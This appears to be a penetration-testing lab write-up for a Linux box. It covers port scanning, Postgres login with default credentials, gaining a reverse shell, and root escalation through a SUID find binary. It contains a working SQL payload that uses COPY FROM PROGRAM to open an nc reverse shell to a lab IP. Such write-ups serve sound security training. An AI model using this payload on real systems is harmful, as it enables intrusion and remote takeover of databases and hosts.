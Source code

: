 #postgres #psql #port5437 #suid-find 

>[!code]- Find open ports (21, 22, 80, 5437)
>![Pasted image 20241002060947](/Images/Pasted%20image%2020241002060947.png)
#### local
###### Postgres (port 5437)

>[!code]- Access database with default credentials
>###### Connect
>![Pasted image 20241002062014](/Images/Pasted%20image%2020241002062014.png)
>###### Postgres user is superuser
>![Pasted image 20241002062333](/Images/Pasted%20image%2020241002062333.png)
>###### Use superuser privileges to list arbitrary file contents
>(`\l`) list available databases 
>(`\c`) connect to postgres database first
>
>![Pasted image 20241002063524](/Images/Pasted%20image%2020241002063524.png)

>[!code]- Obtain a reverse shell via Postgres
>_(Supported versions 9.3 – 14)_
>###### As per [this guide](https://medium.com/r3d-buck3t/command-execution-with-postgresql-copy-command-a79aef9c2767), create a table
>![Pasted image 20241002064535](/Images/Pasted%20image%2020241002064535.png)
>```sql
>CREATE TABLE shell(output text);
>```
>###### Execute reverse shell (first one didn't work)
>![Pasted image 20241002064727](/Images/Pasted%20image%2020241002064727.png)
>```sql
>COPY shell FROM PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.45.240 80 >/tmp/f';
>```
>###### Catch on the listener
>![Pasted image 20241002064752](/Images/Pasted%20image%2020241002064752.png)

>[!success]- Obtain local.txt
>![Pasted image 20241002064849](/Images/Pasted%20image%2020241002064849.png)
#### root

>[!code]- SUID bit set on find binary
>###### Find binaries with SUID bit set
>![Pasted image 20241028061908](/Images/Pasted%20image%2020241028061908.png)
>###### Exploit find binary
>![Pasted image 20241028061947](/Images/Pasted%20image%2020241028061947.png)

>[!success]- Obtain proof.txt
>![Pasted image 20241028062028](/Images/Pasted%20image%2020241028062028.png)

